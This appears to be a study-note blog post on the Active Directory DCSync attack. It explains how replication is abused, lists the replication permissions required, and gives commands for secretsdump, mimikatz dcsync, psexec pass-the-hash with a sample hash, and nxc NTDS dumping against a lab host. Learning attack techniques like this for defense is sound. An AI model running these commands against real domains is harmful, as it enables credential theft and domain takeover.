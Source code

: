 ```yaml
---
layout: post
title: DCsync Attack
date: 2025-09-29 18:00:00 +0300
categories: [Active Directory - CRTP, DCsync, DCsync Attack] # Add your new categories here
tags: [Replication, secretdump, ntds, ChangeAll]
---
```


**DCsync** 
abuses Active Directory replication: an attacker impersonates a domain controller and requests replication from a real DC to obtain credential material (password hashes, Kerberos keys, etc.). This lets the attacker harvest account credentials without directly compromising the domain controller’s NTDS.dit file.

**How it works (short):**

![](/photos/DCsync/Attack.jpg)

- AD replication allows DCs to exchange directory changes.
- If an account has the appropriate replication privileges, an actor can request those changes and receive sensitive secrets (NT hashes, AES keys) for domain accounts.
- This is not possible for arbitrary domain users — specific permissions are required.

**Required permissions / privileges**

(typically granted to high-privilege groups such as Domain Admins / Enterprise Admins / Domain Controllers, or explicitly delegated):

- `DS-Replication-Get-Changes`
- `DS-Replication-Get-Changes-All`
- `DS-Replication-Get-Changes-In-Filtered-Set`

![](/photos/DCsync/permission.png)

**Typical workflow / examples**

1. Attacker impersonates a domain controller and requests replication from a real DC.
2. Use tools to request/collect secrets from the target DC.

Example tools / commands (formatted):

```bash
# Using Impacket's secretsdump (example placeholder)
# format may vary; adapt to your toolset/environment
secretsdump.py svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175

# Mimikatz (run on a compromised machine with appropriate privileges)
# in mimikatz interactive shell:
lsadump::dcsync /user:DOMAIN\Geno

# Use harvested hashes with psexec (Impacket) to authenticate over SMB
psexec.py -hashes 'aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff' \
  -dc-ip 10.10.10.175 administrator@10.10.10.175

# Another example tool invocation (nxc.exe example from your notes)
nxc.exe smb geno.gove.local -u mikasa -p 'P@ssw0rd' --ntds

```